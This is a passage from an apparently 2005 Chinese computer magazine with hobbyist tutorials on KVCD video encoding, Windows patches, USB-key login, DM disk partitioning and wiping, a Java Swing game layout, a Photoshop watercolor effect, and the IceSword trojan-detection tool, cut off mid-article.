如果要转换的影片是16:9模式，请在参数设定对话框中单击“高级”标签，然后选择“影像的显示方式”为“全屏幕（保持宽高比2）”，这样在转换时可以保留全部画面而不会产生比例变形。

- 第六步：默认的“输出文件”保存在与源文件相同的路径中，如果想修改，可以单击“浏览”按钮重新设置。最后，单击“开始”按钮即可编码扩展名为MPG的KVCD视频了，通常情况下，使用TMPGEnc Plus编码KVCD的时间与RMVB文件的播放时间大致相同。

如果你下载的视频节目分辨率很高，还可以尝试使用其他高品质的模板来进行编码，可再现原来的节目效果，无论使用哪种模板进行压缩编码，都能在DVD影碟机上正常播放。

- 第七步：转换好的KVCD视频还要刻录为VCD影碟才行。这里可以使用Nero进行刻录，不过由于使用KVCD编码的MPEG文件是非标准VCD格式，所以在NERO中添加文件时，它会提示“不是建立标准VCD的有效文件”，这时要注意，必须选择“关闭标准一致性并继续”，否则Nero会对MPEG文件进行标准化编码，文件体积又会急剧增大，我们所做的工作就白干了。接下来就可以按照正常的VCD刻录流程制作成VCD影碟了。

### 4. KVCD进阶应用：制作二十合一DVD光盘

2004年第23期中《十问十答 刻录高手大补贴》一文中介绍了几张VCD电视剧合并到一张DVD光盘上的方法，该方法通常可以在一张DVD光盘上制作10集左右的电视剧，其实如果把KVCD技术应用在这种DVD光盘上，则可以制作出二十合一的DVD光盘，这样看电视就更过瘾了！

从http://kvcd.net/dvd-models.html页面中下载360分钟的“352x288 ULBR”模板文件“KVCD-ULBR-352x288_PAL_PLUS.mcf”，然后在TMPGEnc Plus中使用该模板对电视剧源文件进行编码，不过这里必须要注意的是，在设置音频时“采样率”应设置为“48000K”，“码率”应设置为“128”（见图5），这样在使用TMPGEnc DVD Author制作DVD时，就会仅对添加的MPEG文件进行打包，而不需要再重新编码，可以大大减少DVD制作时间。编码为KVCD格式的MPEG文件后，再按照《十问十答 刻录高手大补贴》一文中介绍的方法制作DVD后刻录即可。

在制作DVD影碟时，建议使用DVD-R光盘来刻录。另外由于DVD光盘数据密度大，光盘外圈有可能会不太稳定，所以建议一张碟片刻录容量在3.8GB以下。



(正阳新锐 徐海斌)

## 你了解‘补丁’吗？

防止计算机被病毒感染首先要做的就是给系统安装最新的安全更新，也就是我们常说的系统补丁。但是很多人对它还没有足够的重视和了解，存在很多疑问。这里我们对系统补丁的常见问题做一个简要的解答。

### 1. 什么是补丁，为什么要安装补丁？

所谓补丁就是修补程序错误、不足或漏洞的补充小程序。比如说：衣服有了个破洞，找一块小布头将这个破洞补上。衣服就好比操作系统，小布头就好比补丁。

现在的病毒越来越多地利用Windows系统或应用软件的漏洞进行传播和感染，如2003年广泛发作的SQL Server Slammer和冲击波以及2004年爆发的震荡波等病毒。如果操作系统没有安装相应的补丁程序，很容易受到这些病毒的侵扰。

### 2. 听人说补丁有SP和Hotfix是什么意思？

Hotfix被称作热补丁亦称关键更新，是针对某一具体问题而发布的专门解决这个问题的小程序。由于微软频繁地发布各种Hotfix补丁，致使补丁数量增多，补丁的安装较为繁琐且不易管理。微软为了解决这个问题就开始发布SP补丁。SP全称Service Pack，是一个大的补丁集合，一般在操作系统正式上市一段时间后发布，包含了自发布之日全部的Hotfix补丁。同时，一些Service Pack还会包含一些新的内容，如微软的XP SP2补丁中包含了安全中心等功能。

### 3. 我如何给操作系统安装补丁？

可以登录微软的系统更新网站，查找最新的补丁进行安装，地址：http://Windowsupdate.microsoft.com。

### 4. 如何知道系统需要安装哪些补丁？

登录微软的系统更新网站后，会提示有三种级别的补丁需要安装，分别为：“关键更新和Service Pack”、“推荐的更新”以及“驱动程序更新”。用户应至少安装所有的“关键更新和Service Pack”（见图1）。


如果觉得麻烦，也可以使用瑞星杀毒软件2005版中附带的漏洞扫描工具对计算机进行检查，查找需要安装的补丁程序。点击“开始”菜单，选择“程序→瑞星杀毒软件→瑞星工具→瑞星漏洞扫描”。出现“瑞星系统安全漏洞扫描”的对话框后，勾选“安全漏洞”一项，然后点击“开始扫描”按钮。扫描完毕后点击“查看安全漏洞”，会显示出所有需要安装的补丁及其详细信息（见图2）。


### 5. 微软一般多长时间发布一次补丁？

按照惯例，微软每个月第二周的周二发布安全更新补丁。

### 6. 如何查看我的计算机上都安装了哪些补丁？

可以使用一个名为WinUpdatesList的软件，下载地址：http://nj.onlinedown.net/soft/1049.htm。通过这个软件可以查看补丁的名称、描述、安装日期、如何卸载等详细的信息（见图3）。


(瑞星工程师 史瑨)

## 将你的闪存盘变为“密钥盘”

记得以前就有一种闪存盘，将它插到电脑上后，就能自动登录系统。同样，将闪存盘拔下后，系统就会自动锁定。这种“密钥盘”虽然功能强大，但通常价格不菲，但这难不倒我们，来看看我们是如何将普通的闪存盘打造成“密钥盘”的吧。

| 软件名称 | DiskLogon |
| :--- | :--- |
| 软件版本 | 2.2 |
| 软件大小 | 1.1MB |
| 软件性质 | 共享软件（30天使用限制） |
| 适用平台 | Windows 2000/XP/2003 |
| 下载地址 | http://www.disklogon.com/disklogon_x32.exe |

要想将普通的闪存盘变为“密钥盘”，就需要DiskLogon这款软件的支持。

DiskLogon有两个版本，除了本文重点介绍的共享版外，还有一个免费版，下载地址为http://www.disklogon.com/disklogonlite.exe。与共享版相比，免费版仅能用在Windows XP系统中，而且不支持笔记本电脑，不能使用远程拨号登录等。具体区别可以在http://www.disklogon.com/comparison.htm查看到。

现在准备好闪存盘，安装好DiskLogon，在重启电脑后，我们就开始设置软件。最终会实现在电脑开机后，插入闪存盘就可以自动登录系统，而拔下闪存盘系统就会自动锁定的功能。

- 第一步：点击“开始→Disklogon→DiskLogon Options”，打开DiskLogon Options窗口。
- 第二步：在窗口左侧选择Options→DiskLogon→Disks（选项→磁盘登录→磁盘），在窗口右侧去除除闪存盘以外盘符的勾选。本文以闪存盘盘符 H 为例（见图1）。



- 第三步：选择窗口左侧的Options→DiskLogon→General（选项→磁盘登录→常规），然后在窗口右侧的Disk removal behavior（闪存盘移出时操作）下拉菜单中选择Lock computer when the disk is removed（当磁盘移除时锁定电脑），这样我们就实现了拔下闪存盘系统自动锁定的功能。这里我们还可以选择其他项目，比如选择Log off when the disk is removed（磁盘移除时注销），则表示拔下闪存盘后系统自动注销。默认的No Action（无动作）表示不进行任何操作。



- 第四步：在Log on to Windows（登录系统）下拉菜单中选择Log on when disk is connected（当磁盘连接后登录），这样设置后，就可以实现插入闪存盘系统自动登录的功能。在Unlock computer（解锁电脑）下拉菜单中选择Unlock computer when the disk is connected（当磁盘连接后解锁电脑）（见图2）。
- 第五步：在窗口左侧选择User Accounts（用户账号），在窗口右侧点击Change按钮，打开Change Logon Information（修改登录信息）窗口，在窗口上侧选择闪存盘符，在窗口下侧选择好一个ID后，点击Create New（新建）按钮，在弹出窗口中输入好用户名及密码（见图3）。



- 第六步：现在所有的设置已经完成，重新启动电脑后，只要你的闪存盘插在电脑上就可以自动登录，而登录系统后，只要将闪存盘拔出就可以锁定电脑，再次插入就可以解锁电脑，非常方便。

现在再登录系统时，点击Cancel按钮，还可以使用密码登录。如果你想设置为只能用“密钥盘”登录，那么可以在设置第三步时，去除Allow users to type their username and password to log on or unlock computer（允许用户使用他们的用户名及密码登录或解锁电脑）的勾选即可。这样只有使用“密钥盘”才能登录使用电脑了。

> 小提示
如果你的“密钥盘”丢失，无法进入系统时，可以进入安全模式，将DiskLogon卸载即可。

## DM万用版 免费的硬盘大管家

你是否相信，一分钟之内就能把一个大硬盘重新分区并格式化完毕？这不是神话，硬盘管理工具DM（Disk Manager的简称）可以轻而易举地做到这一点。除了令人惊叹的操作速度外，DM还具有其他许多功能，比如让老主板支持新的超大硬盘，以及比主板BIOS自带程序强大得多的硬盘低格功能等。不过DM对硬盘品牌很挑剔（仅支持IBM、迈拓、三星等少数的品牌），如果它发现所运行的硬盘厂家不符合，就会中止运行，而DM万用版软件（DM&P）则很好地解决了这个问题，让其他厂家的硬盘也能使用DM。

稻草人的10GB老硬盘总出故障，一狠心买了一个80GB的大硬盘，请好友木头人帮他安装新系统。木头人告诉他，要使用新硬盘必须先对硬盘进行分区，再对分区进行格式化，最后才能安装操作系统。稻草人似有所悟，说：“不就是个Fdisk和Format吗？我在上学时就学过了。”

木头人一撇嘴，“现在硬盘动辄上百GB，Fdisk和Format速度慢如龟爬，谁还用那玩意儿。”边说边拿出自己随身携带的工具光盘，稻草人定睛一看，只见上书“DM万用版 9.57”几个大字。

> 小提示
大家可以到http://nj.onlinedown.net/soft/13340.htm下载DM万能版V9.57，将其解压缩后，拷贝或刻录到Windows 98的启动盘中即可（启动盘可以是软盘、U盘、光盘、硬盘等）。目前，DM万用版9.57还没有推出中英双语版，喜欢使用中文版的读者，可下载其9.56版。只要你在DOS环境中先运行中文系统（如：UCDOS），DM 9.56就会自动调整为中文版本。不过在使用中文版时，界面运行速度会很慢，有时按方向键选择时，等半天才有反应，不推荐使用。

> 忠告：
★ DM万用版中的重新分区和格式化等功能将擦去硬盘上的所有数据！所以，不要在装有文件数据的硬盘上使用这些功能，除非你完全确定自己要重新初始化硬盘。
★ 容量超过137GB的硬盘，最好不要使用DM。



**实例1：快速搞定80GB硬盘分区、格式化**
- 第一步：木头人接好新硬盘的数据线和电源线，开机后将刻录有DM的系统启动光盘放入光驱中，又在CMOS中设置从光驱启动，系统顺利进入到DOS界面。
- 第二步：假设你的DM程序保存在光盘的DM目录下，可在DOS提示符后输入“CD DM”（不含引号，下同）后按回车键进入该目录，再输入“DM”命令后回车，就可以启动DM了，稍等片刻加载完各种驱动后会显示一个欢迎画面（Welcome to Disk Manager），按下回车键继续（按下其他键DM会自动退出）。如图1所示，就是DM的操作界面了。

> 小提示
DM有两种运行模式：简易模式和高级模式。运行简易模式，输入“DM”后直接回车；运行高级模式，输入“DM /M”后再回车。其实在DM的简易模式中同时按下Alt+M键即可切换到高级模式，再按下Alt+A键又会切回简易模式。大家还可以输入命令“DM /?”以获得其他参数的用法帮助，输入“DM /??”则会得到中文帮助。

- 第三步：按下方向键选择“Advanced Options”菜单项，按回车键后进入其子菜单，然后在子菜单中选择“Advanced Disk Installation”项并按回车键，这时会如图2所示出现硬盘选择列表（图3所示是有两块硬盘时的情景）。





> 小提示
如果电脑中装有多块硬盘，一定要记清想要操作的硬盘的型号或参数，以免误操作将自己有用的硬盘给分区。如果实在搞不清自己硬盘的型号，建议只装一个硬盘进行操作，毕竟数据安全最重要。

- 第四步：如图2所示，选择“YES”项并按回车键进入下一步操作，接下来要选择合适的分区格式，如图4所示，选择其中的第二项“Windows 95 OSR2，98，98SE，Me，XP，2000 （FAT 16 or 32）”。这一项是把分区格式化成FAT32。

格式，这也是最常用的分区格式，大多数Windows操作系统都支持它。回车后，会弹出确认分区格式对话框，选择“YES”项并按回车键确认。

第五步：这一步比较关键，大家一定要事先规划好合适的分区大小，如图5所示，有三个选项供大家选择，“OPTION (A)”指将整个硬盘只分一个区；“OPTION (B)”一般指将整个硬盘平均分成三个区；“OPTION (C)”指按照操作者自己的意愿分区，我们当然要选择“OPTION (C)”了。

按回车键后，首先会弹出提示框要求你输入主分区的大小（可以认为这就是C盘的大小），稻草人新购买的硬盘是80GB的，他要求将他的主分区设为10GB，木头人在其中输入数字“10276”（见图6）。按回车确认后，会继续显示提示框要求设置硬盘剩余空间的分区大小，直到硬盘所有的容量全部被划分完为止，这时会出现分区大小列表让你预览，如果满意就利用上下方向键选中“Save and Continue”（保存并继续）项后再按回车，这时会出现警告窗口，如果确信自己操作无误，则按下Alt + C键继续。

这里的分区大小默认单位为MB。有关硬盘分区整数GB换算关系见《电脑爱好者》2005年第4期《让硬盘彻底告别1.99GB》一文。

第六步：接下来DM会弹出提示框询问你是否进行快速格式化，我们要的就是速度，当然选择“YES”了，按回车后接着又是一个询问窗口，提醒你是否按照默认的簇进行格式化，也选择“YES”。OK，出现最终确认窗口，如图7所示，选择“YES”项后按回车键，几十秒钟后你的硬盘就一步到位地完成分区、高级格式化等初始操作了，最后DM会要求你重新启动计算机以给硬盘分配盘符，照做便是。

在DM操作的过程中，ESC键算得上是一个万能键，大多数时候，如果发现有误操作，按下它可以取消前面所作的操作。

## 实例2：低格修复坏道小硬盘

轻而易举地搞定了新硬盘的分区、格式化，稻草人又请木头人帮他把替换下来的有坏道的小硬盘修复一下。木头人大吃一惊，说：“虽然DM可以通过低级格式化的方式修复硬盘的交错因子，甚至还可以让部分0磁道出了问题的硬盘起死回生，但没百分之百的把握呀，我只能死马当活马医，修不好的话不要怪我。”

第一步：木头人将有坏道的小硬盘接到电脑上，开机启动DM。这次输入的是“DM /M”命令，按回车键后以高级模式打开DM，首先显示出欢迎画面，按回车键进入DM主界面。可以看到，高级模式比简易模式多了一些维护功能菜单，功能更加强大（见图8）。

第二步：通过上下方向键选中Maintenance Options（维护选项）后按回车，再选择子菜单中的Utilities（实用工具）选项，此选项包含了低级格式化等多种操作。按下回车键后，会要求你选择想要操作的一个磁盘，选中相应磁盘后按下回车键（如果有多块硬盘，一定要小心不要选错硬盘，低格将清除硬盘上的所有数据）。

第三步：在出现的Select Utility Option（选取实用工具选项）对话框中，用上下方向键选择Low Level Format（硬盘低级格式化）项（见图9），按下回车键后会显示一个提示框，按下Alt + C键，再选择YES确认即可。

片刻之后，稻草人的故障硬盘低格完毕，抱着一丝希望重启电脑，木头人在Windows中用“效率源硬盘检测修复程序”对故障硬盘进行了检测，不但故障硬盘能用了，连坏道也消失了，还真把这匹“死马”给医活了。

## 老鸟支招

- 彻底销毁隐秘数据
许多单位会把淘汰的旧机器卖掉，而这些机器硬盘上往往有一些重要数据，有时即使在Windows下按下Shift + Del键彻底删除它们，也可能会被别有用心的人用特殊软件恢复过来。安全起见，要想彻底销毁这些数据，你可以在上例的第三步中选择Zero Fill Drive（磁盘填零）项，可保证彻底删除隐秘数据。不过，千万别拿自己有用的硬盘来做实验，否则后悔药可没有！

- 硬盘家底无处藏身
在DM高级模式中，Maintenance Options选项的子菜单中有一个Display Driver Information （显示磁盘信息）项，通过它可以浏览硬盘的相关参数信息。

## 实例3：小硬盘直接分区只需30秒

既然把死马医活了，这匹活马就得干活，稻草人想将这个10GB的旧硬盘直接分成一个区并格式化它，他想自己亲手试试实例1中木头人的操作，木头人打断他道：“其实，直接分一个区并格式化有更简单的方法”。

第一步：同实例1的第一步，直接运行DM。

第二步：在图1所示界面中选择操作菜单中的第一项Easy Disk Installation（简易磁盘安装），按回车键，DM会自动找到已经安装的硬盘，并显示一个硬盘列表，选择相应的硬盘，然后选择YES项并回车。

第三步：接下来是分区格式选择框，利用上下方向键选中第二项“Windows 95 OSR2， 98，98SE，ME，XP，2000 （FAT16 or 32）”，按下回车键，接下来出现的对话框提示是否使用FAT32文件系统，当然选择YES。又会弹出一个对话框，按照提示按下Alt + C键后，将显示当前硬盘的有关信息，并再次提醒您，如果继续，将删除硬盘中的所有数据，选YES继续，DM将会对硬盘快速格式化。

最后出现Disk Manager Status对话框，表示操作完成，这时从光驱取出你的启动光盘或在软驱取出启动软盘，按下Reset或Ctrl + Alt + Del重启即可。木头人抬手看了一下手表，还不到30秒呢。

## 实例4：高级格式化特定分区

片刻功夫，稻草人的新旧两块硬盘都已经可以在电脑中贡献自己的力量了。善于思考的稻草人问道：“假如，只想格式化大硬盘中某个单独的分区，并不影响其他分区中的数据内容，用DM可以做到么？”当然可以，木头人又熟练地启动了DM。

第一步：如果以简易模式运行的DM，请按下Alt + M键切换到高级模式，然后选择Format/Check Partitions（格式化/检查磁盘分区）项（参见图8）。

第二步：选择自己想格式化的分区所在的硬盘，按下回车后，在弹出的对话框中选择Format a Single Partition（格式化单个分区），按回车键后将显示该硬盘上所有的分区列表，选择好自己想格式化的分区，并且在是否快速格式化中选择“YES”，最后输入硬盘分区卷标，再次确认自己确实要格式化此分区，回车后就可以了。

## 老鸟支招

- 让老主板支持大硬盘
DM万用版中的DDO（Dynamic Drive Overlay）动态驱动覆盖可以帮助计算机系统突破BIOS限制的专有设备驱动程序，从而使较老的机器也能“完全”访问大容量的硬盘。当DM发现主板不支持大硬盘时，就会在分区时自动给硬盘加上DDO程序，这样就能在老主板上使用这块硬盘了。

- 修复被病毒破坏的硬盘
如果硬盘被“硬盘炸弹”之类病毒破坏，无论从光驱或是软驱都无法引导，设置为从盘由其他硬盘引导也不行时，可尝试用DM万用版解决这个问题：
第一步：首先在CMOS设置中屏蔽掉硬盘，即把硬盘设为NONE，当电脑开机后不检测硬盘，就可以从软盘引导了。
第二步：启动软盘上的DM万用版，执行“Advanced Options→Maintenance Options→Utilities→Zero Fill Drive”，将硬盘扇区填零。现在，硬盘就跟从未分过区的新硬盘一样，再重新分区格式化，安装系统软件即可。
注意：一些被病毒破坏的硬盘，上面的数据也许还在，如果这些数据非常重要的话，你自己千万不要进行任何操作，最好找一些专业的数据修复公司帮忙，看他们能否有办法解决。

- 打开DM的更多选项
在DM操作菜单中同时按下Alt + T键会打开高级系统选项，在这个高级系统选项中，我们可以查看驱动器概要、查看或修改CMOS中硬盘的参数，以及查看计算机信息和磁盘控制器芯片组信息等，另外利用其中的Image System Area to File还可以将硬盘系统映像备份到软盘上，以防不测。

- 升级旧版本DM的DDO
DM万用版9.57在DDO里增加了从光盘引导系统的选项（按C键），如果你的DDO版本为9.56之前版本，则无此功能。要升级旧版本DDO，可以在DM高级模式中执行“Maintenance Options→Dynamic Drive Overlay→Update Dynamic Drive Overlay”来升级你的硬盘DDO。

- 向软件作者问答案
在使用DM万用版的过程中遇到了问题，可试试到软件作者的主页上寻找答案。下面是笔者在该主页上找到的两篇文章，感觉还不错：

- 1. 判断主板是否支持容量超过137GB大硬盘的方法
网页地址：http://z80.wx-e.com/article/lba48.htm
- 2. DM万用版常见问题解答
网页地址：http://z80.wx-e.com/myopus/dmp_faq.htm

（河北 闫艳力）

## Swing跟我学之游戏设计（2）

还记得《偷天换日》中精灵般穿梭在好莱坞车流中的Minicooper吗？马克·沃尔伯格和莎莉·塞隆就是驾驶着它在仇人的鼻子底下运走了价值千万的黄金。可是，如果现在将一辆无法奔驰的Minicooper躯壳放在你的面前，你会如何看待它？它还是那个游走自如的精灵吗？今天，就让我们一点一点地为这辆Minicooper组装上零件，让它跑起来。

### 前言

从本期开始，我们为大家提供完整的游戏源代码，地址是：http://www.cfan.com.cn/11program/200508/kyodaisource.zip。Java咖啡馆倡导大家理论与实践并重，我们在连载中将给大家介绍关键技术以及实现思路，朋友们自行结合文章阅读源代码，好比一边读报一边喝咖啡，这才是滴滴香浓意犹未尽。

### 游戏布局

“连连看”属于一款二维战棋类游戏，要设计棋盘类的游戏，GridLayout应该是不二之选。现在让我们一起来看看GridLayout的构造函数：

- GridLayout（）：默认的情况下，将布局区域划分为1*1的大小
- GridLayout（int rows， int cols）：指定布局区域横向和纵向的格子数
- GridLayout（int rows， int cols， int hgap， int vgap）：同上，并且还指定了每个格子之间的横向间距hgap和纵向间距vgap

千万别让这三个构造函数把你给吓住了，其实只要你喜欢，完全可以放心大胆地使用其中的任何一个，就算不小心用“错”了，以后也有办法进行调整。惟一需要注意的是，GridLayout在添加控件时，默认顺序是从左上方向右下方依次添加的。

现在让我们来确定游戏的格子数目。究竟多少格子比较合适呢？太少会降低游戏的难度，太多又会造成视觉影响。所以，我们应该通过一对常量来表示，将来即使要修改，也是举手之劳。

```
public final static int ROW = 8;
public final static int COLUMN = 8;

GridLayout gridLayout = new GridLayout(ROW, COLUMN);
contentPanel.setLayout(gridLayout);
```

如果你此时编译并运行程序的话，你可能会奇怪：界面怎么没有发生任何改变，是不是哪出错了？虽然我们指定了布局，可是为什么控件也没有添加，当然就看不出变化。现在让我们一起在布局上添加按钮吧：

```
for (int i = 0; i < ROW * COLUMN; i++) {
    JButton button = new JButton("Kyodai");
    contentPanel.add(button);
}
```

再运行程序试试，是不是和我的一样（见图1）？

### 巧用JButton做文章

JButton是一个按钮控件，它也是Swing中普通得不能再普通的控件了，尽管如此，我们还是需要花费一点功夫来了解和使用它，因为当你能够熟练使用JButton后，你会发现其他的Swing控件也是如此的相似。

如果你将刚才写好的程序拿来运行，你会发现：游戏区的按钮总是排得满满的，这对实际游戏的操作非常不便，所以，我们得想办法让一部分格子空出来。

GridLayout布局什么都好，就是在添加控件的时候不能跳过某一个格子，这下可怎么办呢？

其实这也不难，既然GridLayout不让跳过，如果我们让某个格子内添加的控件与GridLayout布局的背景融为一体，这样在视觉上就达到一致的效果。此外，假如别人在无意中点击到这个格子上，按钮仍然会原形毕露，我们还得想办法让按钮不能被点击，这就需要用到JButton的setEnabled（）方法。最后，对于能够点击的按钮，当它们被点击时，我们还得要区分出来究竟是哪一个按钮被点击了。

在上一次实现“关于”功能的时候，我们使用了e.getSource（）方法来判断鼠标点击事件产生的源，然而，那只对已经命名好了的控件比较有效。这里，使用数组表示按钮无疑是最好的方法了，首先让我们将上面的代码修改一下：

```
JButton[] dots = new JButton[ROW * COLUMN];
for (int i = 0; i < ROW * COLUMN; i++) {
    dots[i] = new JButton("Kyodai");
    dots[i].setActionCommand("" + i);
    contentPanel.add(dots[i]);
    dots[i].addActionListener(this);
}
```

千万别忘记了在循环体中写上 dots[i] = new JButton（"Kyodai"），虽然在前面定义、使用了 dots 数组，然而，这仅仅只是告诉我们需要使用一些JButton，但是，这些JButton却依然没有被初始化。同时，我们不仅使用setActionCommand（）为按钮指定了事件名称，还使用了addActionListener（）方法为每个按钮加上了事件响应处理。

关于事件响应的代码，我们可以在原来actionPerformed（）事件代码的后面添加：

```
if (e.getSource() instanceof JButton) {
    JButton button = (JButton) e.getSource();
    int offset = Integer.parseInt(button.getActionCommand());
    int row, col;
    row = Math.round(offset / COLUMN);
    col = offset - row * COLUMN;
    JOptionPane.showMessageDialog(this, "ROW=" + row + ", COL=" + col, "按钮", JOptionPane.INFORMATION_MESSAGE);
}
```

在上面的代码中，e.getSource（） instanceof JButton 用来判断产生的事件是否是由JButton型的控件产生的，然后又将产生事件源的控件进行强制型类转换，再使用Integer.parseInt（button.getActionCommand（））方法将取得的事件名称转化为整数，后面的代码就将这个整数还原成行和列的信息。

好了，现在运行程序，然后点击每个按钮，看看是否会出现如图2的对话框？
注意哦，我们的下标是从0开始的。本期程序源代码的下载地址是：http://www.cfan.com.cn/11program/200508/kyodai.zip。

### 在Swing中使用图片

目前我们已经解决了用户操作的问题。为了让界面美观起来，我们需要使用图片来代替文字。有时间和耐心的朋友可以自己做个性图片，只是要注意保持每张图片大小一致，否则就太难看啦。想省事的话也可以直接使用下载包中提供的图片。

在Swing中，可以使用setIcon（Image image）方法来为JButton设置图片，其中的参数image就是我们要设置的图片对象，这个对象有多种方法可以得到：

- 使用Toolkit类来获得：
  image = Toolkit.getDefaultToolkit（）.getImage（url）;
- 使用ImageIcon类的getImage（）方法来获得：
  image = new ImageIcon（getClass（）.getResource（filename））.getImage（）;

我们这里选用第一种方法。为了方便今后再次获得Image对象，我们可以将此写为一个函数：

```
Image getImage(String filename) {
    URLClassLoader urlLoader = (URLClassLoader) this.getClass().getClassLoader();
    URL url = null;
    Image image = null;
    url = urlLoader.findResource(filename);
    image = Toolkit.getDefaultToolkit().getImage(url);
    return image;
}
```

有了这个函数之后，以后再要用到图片就方便多了，不是吗？
图片现在已经有了，那么我们就可以将源代码包中Map.java中的地图信息用图片的形式表现出来了。由于此段代码是关于游戏的算法代码，因此不再列举代码，在这里大致解释一下具体是怎么做的吧！在Map.java中，我们使用了二维数组map[][]来保存图片信息，同时，我们也使用了一维数组images[]来保存每一个图片对象，map中的每一个元素都有一个值，这个值不仅表明了在游戏界面中按钮对应的值，也表明了这个按钮使用images[]数组中图片的编号，程序运行界面便漂亮许多。

### 小结

今天我们介绍了Swing中JButton控件。对于大多数Swing控件来说，JButton的用法一样可以照搬过去。别小看这个JButton，当你能够很好地掌握它的时候，你的Swing功底就已经提升一个台阶了。此外，我们也学会了在Java中加载图片文件的两种方法。最后，我们还将以上的两部分内容结合在一起创造出了漂亮的游戏界面。虽然我没有在这里写出完整的代码，但相信大家参考我的源程序，经过自己的努力，一定能够达到目标。如果遇到解决不了的问题，可以通过leftmoon@163.com信箱与我联系。
不知道大家对今天的内容感觉到满意吗？精彩还在后面，大家要继续光顾我们的咖啡馆哦！

## 圆你画家梦 一分钟照片变成水彩画

给别人看一张你拍的照片，他们不会觉得惊奇，因为人人都会按下快门，咔嚓一下拍出一张人物或风景照来。但如果你给别人看的是你自己画的水彩画或油画，他们肯定要惊羡于你的艺术才华了。什么，你不会画画？没关系，有了Photoshop，就能圆圆你的画家梦了。在本教程开始之前，先来看一幅效果图(见图1)。本文彩图可从http://www.newhua.com/cfan/200508/sch.rar下载。


### 第一步：运行Photoshop CS
运行Photoshop CS，打开一幅风景图片。为了得到更好效果，这幅图片应该色彩明快、亮度较高、没有大面积的暗色部分(见图2)。

### 第二步：应用木刻滤镜
在图层调板上，将背景图层拖到调板底部的“创建新的图层”按钮上，这个操作结果是得到背景图层的副本图层。点选背景副本图层，然后执行菜单命令“滤镜→艺术效果→木刻”，这时会出现“滤镜画廊”对话框。不用管其他部分，只关注当前被选择的“木刻”滤镜，在右侧设置区内将“色阶数”设为5，“边缘简化度”设为4，“边缘逼真度”设为2，设置完毕单击“好”按钮确定，再在图层调板中将背景副本图层的混合模式改为“亮度(Luminosity)”，风景图片就得到了迷彩般的效果(见图3)。





### 第三步：应用干画笔滤镜
再次将背景图层拖到调板底部的“创建新的图层”按钮上复制它，并将得到的背景副本 2 图层拖到所有图层之上。选择背景副本 2 图层，执行菜单命令“滤镜→艺术效果→干画笔”，在对话框中将“画笔大小”设为2，“画笔细节”设为9，“纹理”设为3。设置好后按“好”，将背景副本 2 图层的混合模式改为“滤色(Screen)”。

### 第四步：应用绘画涂抹滤镜
再次复制背景图层，接着将背景副本 3 图层拖到最上面。选择背景副本 3 图层，执行菜单命令“滤镜→艺术效果→绘画涂抹”，在对话框中将“画笔大小”设为3，“锐化程度”设为4，“画笔类型”选择为“简单”。设置好后按“好”，将背景副本 3 图层的混合模式改为“变亮(Lighten)”。

### 第五步：调整亮度
一般水彩画的色彩都是比较明亮的，经过上述步骤处理后，如果觉得图片还是有点暗，可通过色阶调整层调整一下亮度：在图层调板上，单击底部的“创建新的填充或调整图层”按钮，在下拉菜单中选择“色阶”，在打开的色阶对话框中向左拖动输入色阶的中间调滑块(中间灰色的那个)，或者直接在上面中间的输入框中将原来的1改为1.2(见图4)。调整好后按“好”，就可以在不损失暗部细节的前提下使图像变亮一些了。注意，一定要将新建的色阶调整层拖到最上方。最终的效果如图5所示。





> 小提示
虽然可以直接选择“图像→调整→色阶”命令来调整图像的亮度，但图像保存后，就不能够再恢复或改变了。而使用色阶调整层的好处就是，可以随时双击色阶调整层重新改变亮度值，或者将调整层删除以还原图像本来的面貌，不会对原图像造成破坏。

### 第六步：制作画框
最后把水彩画“装”到画框中。大家可借鉴本刊2004年第21期上的《框住你的美丽——Photoshop相框制作实战》一文制作一个画框，将上面我们制作的水彩画装进去，效果如图6所示。


（天津 奇士）

## 斩断系统“黑手” ——IceSword 冰刃

有这么一款软件，它专为查探系统中的幕后黑手——木马和后门而设计，内部功能强大，它使用了大量新颖的内核技术，使内核级的后门一样躲无所躲，它就是——IceSword冰刃。

- 软件版本：1.06
- 软件大小：893KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP/2003
- 下载地址：http://www.newhua.com/cfan/200508/icesword.rar

IceSword冰刃(以下简称IceSword)是一款斩断系统黑手的绿色软件。在笔者的使用中，IceSword表现很令笔者满意，绝对是一把强悍的瑞士军刀——小巧、强大。

### IceSword的“防”
打开软件，看出什么没？有经验的用户就会发现，这把冰刃可谓独特，它显示在系统任务栏或软件标题栏的都只是一串随机字符串“CE318C”，而并不是通常所见的软件程序名(见图1)。这就是IceSword独有的随机字符串标题栏，用户每次打开这把冰刃，所出现的字符串都是随机生成，随机出现，都不相同(随机五位/六位字符串)，这样很多通过标题栏来关闭程序的木马和后门在它面前都无功而返了。另外，你可以试着将软件的文件名改一下，比如改为killvir.exe，那么显示出来的进程名就变为了killvir.exe。现在你再试着关闭一下IceSword，是不是会弹出确认窗口？这样那些木马或后门就算通过鼠标或键盘钩子控制窗口退出按钮，也不能结束IceSword的运行了，只能在IceSword的面前乖乖就范了。



### IceSword的“攻”
如果IceSword只有很好的保护自身功能，并没有清除木马的能力，也不值得笔者介绍了。如果大家还记得本刊2005年第5期《如何查杀隐形木马》一文，那一定会觉得IceSword表现相当完美了。但这只所谓的隐身灰鸽子，在IceSword面前只算是小儿科的玩意。因为这只鸽子只能隐身于系统的正常模式，在系统安全模式却是再普通不过的木马。而IceSword的作者就在帮助中多次强调IceSword是专门针对功能强大的内核级后门设计的。今天，笔者通过一次经历来说明IceSword几招必杀技。

前段时间，笔者某位朋友的个人服务器(Windows 2003)，出现异常，网络流量超高，朋友使用常规方法只可以清除简单的木马，并没有解决问题，怀疑是中了更强的木马，于是找来笔者帮忙。笔者在询问了一些情况后，直接登录到系统安全模式检查，谁知也没有什么特别发现。于是笔者尝试拿出IceSword这把“瑞士军刀”……

### 第一步：查看进程
打开IceSword，在窗口左侧点击“进程”按钮，查看系统当前进程。这个隐藏的“幕后黑手”马上露出马脚(见图2)，但使用系统自带的“任务管理器”是看不到这些进程的。注意，IceSword默认是使用红色显示系统内隐藏程序，但IceSword若在内核模块处显示多处红色项目并不都是病毒，我们还需要作进一步的技术分析及处理。

别以为只是系统自带的任务管理器功能弱，未能发现。我们又用了IceSword与Process Explorer(另一款功能强大的进程查看软件)进行对比，同样也没办法发现“幕后黑手”的踪影(见图3)。





### 第二步：查看服务
点击窗口左侧的“服务”按钮，来查看系统服务。这时就可以看到如图4所示的情况了，这个木马的服务也是隐藏的，怪不得笔者未能发现行踪。



### 第三步：查看注册表
